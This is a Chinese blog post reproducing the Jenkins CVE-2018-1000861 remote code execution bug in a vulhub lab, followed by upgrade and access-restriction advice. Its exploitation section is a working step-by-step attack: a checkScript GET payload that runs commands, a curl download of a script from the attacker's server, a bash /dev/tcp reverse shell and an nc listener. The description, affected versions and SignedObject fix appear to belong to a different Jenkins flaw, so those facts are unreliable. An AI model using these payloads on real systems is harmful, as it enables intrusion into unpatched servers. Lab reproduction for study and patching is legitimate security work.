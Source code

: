 ```yaml
---
title: "CVE-2018-1000861 复现"
date: 2019-11-06T14:32:15+08:00
draft: false
tags: ['远程代码执行漏洞']
categories: ['漏洞复现']
---
```

最近在整理Jenkins相关漏洞,所以来复现下!!

<!--more-->


### 1. 漏洞描述
  Jenkins使用XStream库来序列化和反序列化XML。它的维护者最近发布了一个安全漏洞，任何能够向Jenkins提供XML并使用XStream的用户都可以使Java进程崩溃。Jenkins中，这通常适用于有权创建或配置项目（作业），视图或代理的用户。

### 2. 漏洞原理
  该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限，造成数据泄露。

### 3. 影响范围
	Jenkins Version <= 2.56
	
	Jenkins LTS Version <= 2.46.1

### 4. 漏洞利用
#### 环境搭建:

直接使用vulhub上的环境即可(徐安装好docker和docker-compose)

(1) 下载vulhub项目,然后进入到  vulhub/jenkins/CVE-2018-1000861目录下

(2)  执行命令:

```
docker-compose up -d
```
来启动环境   


(3) 访问: [http://172.26.1.156:8080/](http://172.26.1.156:8080/)

![图片](https://ae01.alicdn.com/kf/U7700cb5c7e8b4d558ce2e30c6a1a30eeL.jpg)

#### 漏洞复现:

1. 此漏洞是没有回显的,所以我们这里直接反弹shell:

此漏洞的POC(直接GET请求即可):

```
GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}}
```
2. 我们这里采取下载文件的方法来反弹shell

 (1) 先在我们的服务器上防止一个文本,内容为:

```
bash -i >& /dev/tcp/172.26.1.156/9999 0>&1
```
 (2) 然后我们替换POC中执行命令的部分为下载文件的命令:
```
curl -o /tmp/1.sh http://172.26.1.156:8080/1.txt
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22curl+-o+/tmp/1.sh+http://172.26.1.156:8080/1.txt%22.execute()}}
```
 (3) 给予下载的脚本执行权限:
```
chmod 777 /tmp/1.sh
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22chmod+777+/tmp/1.sh%22.execute()}}
```
 (4) 然后在我们接收shell的机器上监听之前写的端口:
```
nc -lvvp 9999
```
 (5)  直接bash执行我们下载的脚本
```
bash /tmp/1.sh
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22bash+/tmp/1.sh%22.execute()}}
```
 (6) 回到我们监听端口的机器:
![图片](https://ae01.alicdn.com/kf/U1fa800f6a04448f38d05166dcce9d04cJ.jpg) 可以看到已经成功获取到了shell!

3. 这里提供一个GitHub上的利用脚本:

[https://github.com/orangetw/awesome-jenkins-rce-2019](https://github.com/orangetw/awesome-jenkins-rce-2019)

执行案例:

![图片](https://ae01.alicdn.com/kf/Uadc7abd83e45466dbed2f51492676c13j.jpg)

### 5. 漏洞防御
1）由于漏洞危害较大（直接获取系统权限），且目前已有漏洞利用工具，Jenkins官方已修复上述漏洞，并将SignedObject添加到远程黑名单中。建议您尽快对照检查自己所用的Jenkins是否在受影响范围，如受影响，请及时进行升级操作。

a：Jenkins主版本用户需升级到2.58版本

b：Jenkins LTS 版本用户需升级到2.46.2版本

下载链接：[https://jenkins.io/download/](https://jenkins.io/download/)

2）与此同时，建议您针对您的Jenkins后台进行安全加固，在安全组设置仅允许指定的办公IP可以访问管理，禁止对所有非授权用户的访问。

### 6. Reference
[https://blog.csdn.net/JiangBuLiu/article/details/95487423](https://blog.csdn.net/JiangBuLiu/article/details/95487423)

[https://github.com/orangetw/awesome-jenkins-rce-2019](https://github.com/orangetw/awesome-jenkins-rce-2019)

